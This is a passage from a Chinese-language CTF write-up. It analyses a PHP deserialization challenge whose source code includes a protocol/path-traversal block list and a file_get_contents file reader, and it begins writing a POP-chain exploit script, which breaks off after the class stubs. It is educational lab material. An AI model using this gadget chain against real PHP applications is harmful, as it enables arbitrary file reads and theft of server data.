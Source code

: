 ```php
            highlight_file($this->source);
        }
        
    }
    public function __wakeup()
    {
        if(preg_match("/http|https|file:|gopher|dict|\.\./i", $this->source)) {
            echo "hacker~";
            $this->source = "index.php";//检测
        }
    }
}
class Test
{
    public $file;
    public $params;
    public function __construct()
    {
        $this->params = array();//使$params变成数组
    }
    public function __get($key)
    {
        return $this->get($key);
    }
    public function get($key)
    {
        if(isset($this->params[$key])) {
            $value = $this->params[$key];
        } else {
            $value = "index.php";
        }
        return $this->file_get($value);
    }
    public function file_get($value)
    {
        $text = base64_encode(file_get_contents($value));
        return $text;
    }
}
?> 
```

那么最终切入点算是找到了

先看看pop链怎么构造

首先切入点选择`C1e4r`类，根据析构函数的`echo`可以得知下一个对象为`Show`，下一个则是`Test`了

脚本如下

```php
<?php
class C1e4r{
    public $test;
    public $str;
}
class Show{
    public $source;
    public $str;
}
class Test{
    public $file;
    public $params;
}
$a = new C1e4r();
```